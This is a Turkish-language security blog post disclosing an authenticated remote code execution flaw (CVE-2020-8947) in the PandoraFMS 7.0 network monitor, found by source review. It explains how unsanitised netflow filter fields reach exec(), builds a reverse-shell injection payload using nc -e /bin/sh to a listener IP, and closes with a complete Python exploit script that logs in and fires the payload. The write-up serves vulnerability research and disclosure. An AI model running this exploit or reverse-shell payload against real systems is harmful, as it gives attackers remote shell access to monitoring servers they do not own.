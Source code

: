 ```yaml
---
layout: post
title: PandoraFMS 7.0 Authenticated Remote Code Execution x 4
date: '2020-03-05 10:20:42 +0300'
categories: blog
---
```



Merhaba, [PANDORAFMS](http://pandorafms.org/) adında açık kaynaklı bir ağ izleme aracında bulduğum Authenticated RCE zafiyetinin detaylı bulumunu anlatıyor olacağım. Statik kaynak kod analizine dair türkçe pek bir kaynak bulunmuyor oluşunu göz önünde bulundurarak makaleyi türkçe kaleme aldım.

**AUTHENTICAD RCE**

Authenticated, zafiyetinin tetiklemesi için geçerli bir kullanıcı gerekli olduğunu belirtir. RCE ise uygulama üzerinden uygulamanın çalıştığı sunucuda sistem kodları çalıştırabilmemize olanak sağlayan zafiyet türüdür.

**PANDORAFMS**

1.  Uygulama indirme linki: [PandoraFMS Downloads](https://pandorafms.org/features/free-download-monitoring-software/)
2.  Zafiyeti tespit ettiğim sürüm: 7.0

**BÖLÜM 1: Uygulama Eldesi**

Profesyonel bir kaynak kod analizicisi değilim bu sebeple zafiyet bulmanın kendime göre en basit olacağı uygulama türleri sınıflandırdım. Bunların başında ise ağ izleme yazılımları geliyor. Ufak bir [arama sonucu](https://www.dnsstuff.com/open-source-network-monitoring-tools) açık kaynaklı popüler ağ izleme araçları listesine eriştim ve burada [PANDORAFMS](https://pandorafms.org/) yazılımına rastladım, hem açık kaynaklıydı hemde indirme linklerinde doğrudan sanallaştırma yazılımlarıyla kullanılabilecek bir OVA dosyası bulunuyordu. Doğrudan bir OVA dosyası bulunması, uygulamanın kaynak kodlarına erişimde işleri oldukça kolaylaştırıyor. OVA dosyasını indirdim ve [VMWARE Fusion](https://www.vmware.com/products/fusion.html) ile sanal makine olarak kaldırdım.

**Bölüm 2: Kaynak Kod Eldesi**

Sanal makineye giriş yapmak için dağımtıcının kendi sağladığı [kılavuz](https://pandorafms.com/downloads/guias_rapidas_EN.pdf) üzerinden root:pandora giriş bilgisini aldım ve sisteme giriş yaptım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms.png)

Sistem üzerinde biraz gezindikten sonra, uygulamaya dair kodların varsayılan webservisi dizini olan /var/www/html dizininde tutulduğunu tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-kaynak.png)

Kodları daha uygun bir ortadamda IDE üzerinden incelemek için dizini [TAR](https://wiki.ubuntu-tr.net/index.php?title=Tar_komutu_kullan%C4%B1m%C4%B1) ile sıkıştırdım ve SCP kullanarak ana makineme aktardım.

```
tar -czvf pandora.tar.gz /var/www/html/pandora_console
scp root@pandoraFMSIP:/var/www/html/pandora.tar.gz /tmp/pandora.tar.gz
```

**Bölüm 3: Kaynak Kodun İncelenmesi**

Dosyaları kendi tercih ettiğim [ATOM](https://atom.io/) idesini kullanarak kurcalamaya başladım.

Statik kaynak kod analizlerinde komut çalıştırmaya dair bir zafiyet arıyorsak başlı başlı dikkat etmemiz gereken bazı fonksiyonlar var. Bunların bir kaçına örnek olarak; `system, exec, shell_exec, popen, eval, passthru` fonksiyonları verilebilir.

IDE üzerinde tüm projede bulunan php dosyalarında yukarıda belirttiğim fonksiyonları aramaya başladım ve boşa çabalanan bir kaç saatin sonunda **functions_netflow.php** dosyasının 648\. satırında zafiyete dair çok umut vaadeden bir nokta tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-finding-point.png)

Hem **exec()** fonksiyonu kullanılıyor hemde henüz nerenden geldiği belli olmayan ama ben kullanıcıdan geliyorum diye bağıran bir değişkeni içeriyordu. Fazla Kemal Sunal izlemenin etkisinden olacak "Şimdi istanbul hapı yuttu" diye aklımdan geçirerek **$command** değişkeninin nereden geldiğini kurculamaya başladım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-command.png)

**$command** değişkeni **net_flow_getcommand()** fonksiyonundan geliyor, daha sonrada önceden tanımlanmış ekstra bir kaç komutta üstüne ekleniyordu. IDE'nin arama özelliğini kullanarak fonksiyonun aynı dosyada 892.nci satırda tanımlandığını tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-fonksiyon.png)

Fonksiyonu inclediğimde maalesef kullanıcıdan gelen herhangi bir verinin burada **$command** değişkenine maalesef eklenmediğini gördüm.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-fonksiyon-ayrinti.png)

Fakat bereket olsun, **$command** değişkenine bir şeyler ekleyen yeni fonksiyon çıktı karşıma 904\. satırda bulunan **netflow_get_filter_arguments** fonksiyonu. IDE üzerinden fonksiyonun tanımlandığı noktayı tespit ettim (aynı dosya 917\. satır) ve fonksiyonu incelemeye koyuldum.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-getfilter-fonksiyon.png)

Fonksiyon bir sürü farklı girdiyi(ipsrc, ipdst, srcport, dstport) herhangi bir kontrolden geçirmeden **$filter_args** adında bir değişkene ekliyor ve en sonunda **$filter_args** değişkenini değer olarak dönüyordu. Daha sonra bu değer, **$command** değişkenine ekleniyor ve ilk tespit edilen satırda bulunan **exec()** fonksiyonuna gönderiliyordu. Yani eğer bu değişkenlerden herhangi birine istediğimiz girdiyi verebilirsek pekala buradan bir RCE elde edebiliriz. Aslında aradığım şey $_GET yada $_POST şekilinde kullanıcıdan alınan bir girdiydi fakat bu değişkenlerin hiç birinin geleneksel GET yada POST ile alındığını tespit edemedim. RCE hem çok yakındı hemde çok uzak. Bu durum canımı oldukça sıkmış olsada fonksiyonun içinde bulunan değerlerin mantıksal olarak kullanıcıdan alınması gerekiyordu. Uzunca bir süre bu değişkenlerin nasıl alındığı tespit etmeye çalıştım fakat bir sonuca varamadım. Biraz kafa toplamak amacıyla mola verdim. Bu noktada aslında yine bir şey bulamadığımı düşünüp bırakacaktım ki, aykırı bir tutum sergileyerek Googleda ufak bir arama yaptım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-google.png)

Buradan dökümanları okumanın ne kadar önemli olduğunu tekrar alıyoruz. Site üzerinde biraz gezindikten sonra, heyecanımı tekrar kazandıran bir ekran görüntüsüne denk geldim

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-google-netflow-dokuman.png)

Burada ki gösterilen girdiler fonksiyonun içinde tespit ettiğimiz (ipsrc, ipdst, srcport, dstport) değişkenleriydi, yani RCE zafiyetini tetiklememiz için kontrol etmemiz gereken değişkenler. Hemen dökümanı takip ederek, tarayıcı üzerinden ilgili sayfaya eriştim:

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-page.png)

Girdilerin gönderildiği noktalarının tespitinin ardından, kalan son iş uygun payloadı oluşturmaktı. Fonksiyonları tekrar inceledim, **netflow_get_filter_arguments** fonksiyonun sonunda **$filter_args** değişkenine `"` karakteri eklediğini gördüm.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-son-dokunuslar.png)

Çift tırnakları kapatmak için payloadımız " karakteriyle başlamalı ve kendi komutumuzu çalıştırmak adına " karakterini bir ; takip etmeli tabi farklı girdilerde kullanılabilir && gibi. Son olarak, payloadımızdan sonra gelecek eklemelerin payloadı bozmaması için en sona # işareti koymamız yeterli olacaktır. Yani payloadımız ";Girilecek Komut# taslağında olacak. Taslağın arasına ufak bir reverseshell komutu iliştirmek için [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) den bir reverseshell komutu aldım. Ve sonuç payloadı: **";nc -e /bin/sh 192.168.1.100 1234 #** olarak oluştu. Ve sayfada bulunan "router ip" harici herhangi bir inputa oluşturduğum payloadı verdiğimde bir shell eldesi sağladım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-son.png)

Dağıtımcıya ulaşmaya çalıştım fakat bir sonuç alamadım. Bu nedenle makaleyi açık olarak yayınladım.


**Bölüm 4: Exploit**



```

'''
PANDORAFMS 7.0 Authenticated Remote Code Execution x4
This exploits can be edited to exploit 4x Authenticated RCE vulnerabilities exist on PANDORAFMS.
incase default vulnerable variable won't work, change the position of payload to  one of the following ip_src, dst_port, src_port

Author: Engin Demirbilek
Github: github.com/EnginDemirbilek
CVE: CVE-2020-8947

'''
import requests
import sys

if len(sys.argv) < 6:
	print "Usage: ./exploit.py http://url username password listenerIP listenerPort"
	exit()

url = sys.argv[1]
user = sys.argv[2]
password = sys.argv[3]
payload = '";nc -e /bin/sh ' + sys.argv[4] + ' ' + sys.argv[5] + ' ' + '#'

login = {
	'nick':user,
	'pass':password,
	'login_button':'Login'
}
req = requests.Session()
print "Sendin login request ..."
login = req.post(url+"/pandora_console/index.php?login=1", data=login)

payload = {
	'date':"",
	'time':"",
	'period':"",
	'interval_length':"",
	'chart_type':"",
	'max_aggregates':"1",
        'address_resolution':"0",
        'name':"",
        'assign_group':"0",
        'filter_type':"0",
        'filter_id':"0",
        'filter_selected':"0",
        'ip_dst':payload,
	'ip_src':"",
	'dst_port':"",
	'src_port':"",
	'advanced_filter':"",
	'aggregate':"dstip",
	'router_ip':"",
	'output':"bytes",
	'draw_button':"Draw"
}

print "[+] Sendin exploit ..."

exploit = req.post(url+"/pandora_console/index.php?sec=netf&sec2=operation/netflow/nf_live_view&pure=0",cookies=req.cookies, data=payload, headers={
'User-Agent':'Mozilla/5.0 Gecko/20100101 Firefox/72.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded'})

if exploit.status_code == 200:
	print "[+] Everything seems ok, check your listener."
else:
	print "[-] Exploit failed. You can change position of payload to ip_src, dst_port or src_port and try again."


```


[Engin Demirbilek](https://www.linkedin.com/in/engin-d-742752153/)
